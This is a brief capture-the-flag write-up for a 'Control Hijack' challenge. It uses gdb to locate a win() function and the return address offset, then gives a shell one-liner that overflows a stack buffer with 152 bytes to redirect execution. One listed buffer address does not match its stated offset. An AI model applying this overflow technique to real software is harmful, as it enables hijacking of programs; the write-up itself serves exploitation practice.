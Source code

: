 # Control Hijack (hard)

1. In gdb, `info functions` and `disas main`, we get to know:
    - win() is at **0x00000000004013b4**
    - challenge() returns at **0x000000000040167b**

2. Set a breakpoint `b *challenge+242`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7fffc56bb090**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7fffc56ba000**, which is **rbp-0x90** = rbp-144
    - return address is stored at **0x7fffc56bb098**, which is **rbp+0x8** = rbp+8
5. 152 a's followed by desired address:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb4\x13\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack
    ```
